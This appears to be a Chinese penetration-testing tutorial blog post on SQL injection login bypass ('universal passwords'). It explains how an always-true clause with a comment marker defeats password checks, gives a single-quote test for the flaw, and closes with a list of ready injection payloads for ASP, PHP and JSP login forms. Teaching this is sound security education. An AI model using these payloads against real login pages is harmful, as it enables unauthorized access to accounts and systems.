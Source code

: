 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
---
```


##OR漏洞简述##

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

##漏洞原理##

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。
例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为
```
SELECT * FROM admin WHERE Name='admin' and passWord='123'
```
而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为
```
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
```
此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。
原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

##判断方法##

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

##不同类型程序的万能密码##

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

###asp aspx万能密码###

* `"or "a"="a`
* `')or('a'='a`
* `or 1=1--`
* `'or 1=1--`
* `a'or' 1=1--`
* `"or 1=1--`
* `'or'a'='a`
* `"or"="a'='a`
* `'or''='`
* `'or'='or'`
* `1 or '1'='1'=1`
* `1 or '1'='1' or 1=1`
* `'OR 1=1%00`
* `"or 1=1%00`
* `'xor`
* `用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1`
* `..admin' or 'a'='a 密码随便`

###PHP万能密码###

* `'or 1=1/*`
* `User: something`
* `Pass: ' or '1'='1`

###jsp 万能密码###

* `1'or'1'='1`
* `admin' or 1=1/*`